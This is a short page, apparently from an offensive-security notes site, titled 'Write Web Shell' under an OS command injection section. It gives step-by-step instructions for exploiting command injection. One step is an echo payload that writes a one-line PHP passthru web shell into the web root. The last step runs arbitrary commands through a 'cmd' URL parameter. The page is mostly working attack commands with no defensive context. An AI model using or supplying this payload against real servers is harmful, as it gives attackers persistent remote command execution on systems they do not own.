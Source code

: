 ```yaml
---
title: Write Web Shell
layout: default
parent: OS Command Injection
has_children: false
nav_order: 5
---
```


1. First get the current directory:
`pwd`

2. Inject the following based on path from above (URL encode if needed):
`echo+"<pre><?php+passthru(\$_GET['cmd']);+?></pre>"+>+/var/www/html/webshell.php`

3. Use `http://ip/webshell.php?cmd=ls` (`cmd` parameter) to execute command.